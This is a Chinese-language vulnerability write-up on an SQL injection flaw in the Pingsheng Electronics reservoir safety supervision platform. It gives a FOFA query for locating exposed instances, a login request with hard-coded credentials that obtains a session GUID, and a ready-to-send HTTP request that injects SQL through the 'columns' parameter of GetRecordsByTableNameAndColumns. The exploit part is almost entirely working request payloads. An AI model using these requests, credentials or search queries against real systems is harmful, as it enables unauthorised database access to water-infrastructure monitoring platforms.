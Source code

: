 # 平升电子水库安全监管平台GetRecordsByTableNameAndColumns存在SQL注入漏洞

# 一、漏洞简介
唐山平升电子技术开发有限公司于1999年成立，位于唐山市国家高新技术开发区，是河北省高科技企业，是国内最早生产GPRS数据传输模块的企业之一，专注水行业远程测控设备和系统软件的专业制造商。公司自成立以来，始终致力于供水、水资源远程测控新技术、新产品的开发生产，其中GPRS数据传输模块应用到青藏铁路、大庆油田、曹妃甸工业区等许多国家重点工程和大型企业；水源井远程测控终端通过了国家权威机构的检验、获得国家专利、批量应用到浙江、山西、山东、辽宁、江苏、河南、河北、内蒙、陕西、北京、天津、唐山等许多地区的水务部门，成为行业中的名牌产品。平升电子水库安全监管平台GetRecordsByTableNameAndColumns存在SQL注入漏洞，攻击者可通过该漏洞获取数据库权限 。

# 二、影响版本
+ 平升电子水库安全监管平台

# 三、资产测绘
+ fofa`body="js/PSExtend.js"`
+ 特征

![1710688105375-14ec86fd-745f-4b3c-a67b-f02aa940459c.png](./img/oCDAx2tRVXTcV9Ym/1710688105375-14ec86fd-745f-4b3c-a67b-f02aa940459c-537710.png)

# 四、漏洞复现
首先获取Guid

```plain
POST /Webservices/UserAdminService.asmx/Login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Connection: close

LoginName=Data86&LoginPwd=Data86%40
```

![1716451555256-4b68752c-8c40-4044-99d5-62f6b42e3c44.png](./img/oCDAx2tRVXTcV9Ym/1716451555256-4b68752c-8c40-4044-99d5-62f6b42e3c44-488482.png)

替换获取的Guid发送数据包

```plain
POST /WebServices/DataBaseService.asmx/GetRecordsByTableNameAndColumns HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 105
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Connection: close

loginIdentifer=07deec48-6ee8-4127-9b27-fda9ae2036f9&requestInfos=&tableName=syscolumns&columns=top+1+substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)
```

![1716451619577-c49d1ee3-f6c3-4e57-9e8a-2e025ad3621b.png](./img/oCDAx2tRVXTcV9Ym/1716451619577-c49d1ee3-f6c3-4e57-9e8a-2e025ad3621b-115713.png)





> 更新: 2024-05-26 11:28:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/pq90gr1d4fdx1r82>